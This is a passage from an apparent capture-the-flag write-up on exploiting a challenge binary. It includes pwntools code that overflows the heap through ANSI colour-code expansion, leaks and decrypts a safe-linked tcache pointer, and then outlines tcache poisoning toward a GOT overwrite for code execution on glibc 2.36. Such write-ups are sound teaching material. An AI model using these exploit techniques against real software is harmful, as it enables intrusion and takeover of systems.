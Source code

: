 ```py
add_listing_beta_insert(b'E'*6, flat(
    b'$RED'*59, # '$RED'*59 gets expanded into '\x1b[31m'*59 allowing heap overflow
    b'X', # padding
    # end of struct:
    b'E'*8, # next (victim) chunk's size
))

add_listing_beta_preview()
ru(b'E'*8)
mangled_heap_leak = rl(keepends=False) # this is victim chunk's safe linked fwd pointer from tcache
mangled_heap_leak = u64(mangled_heap_leak + bytes(8-len(mangled_heap_leak)))
heap_leak = decrypt_ptr(mangled_heap_leak)
log.info(f'{heap_leak = :x}')

HEAP_LEAK_OFFSET = 0x14d50
```

_The heap offsets used are relative to one run and are likely to change running the binary again because of differences introduced by the randomness of the used GMP variable size integers. This is not a problem because heap leak is only used paired with a offset from it and not from heap base._

More info about safe linking can be found [here](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking), and here is the function used to decrypt the mangled leaked fd pointer:

```py
def decrypt_ptr(val):
    mask = 0xfff << (64-12)
    while mask:
        v = val & mask
        val ^= v >> 12
        mask >>= 12
    return val
```

Now both **PIE base** and **heap leak** are known.

### Obtaining RCE

The target now is obtaining remote code execution, hence, redirecting program's execution flow.\
Glibc version is `2.36` (default version for Debian 12 Bookworm).\
Here are protections put in place by the binary (checked by `checksec`):

![binary checksec](writeup/img11.png "binary checksec")

`Partial-RELRO` protection doesn't make `Global Offset Table` read-only (unlike Full RELRO), so overwriting a GOT entry is definitely an option.

Easiest path to a write-what-where primitive is performing a [TCache poisoning attack](https://github.com/shellphish/how2heap/blob/master/glibc_2.36/tcache_poisoning.c): basically changing the `fd` (pointer to next chunk of the free bin linked list) of a freed chunk that lays in the TCache.
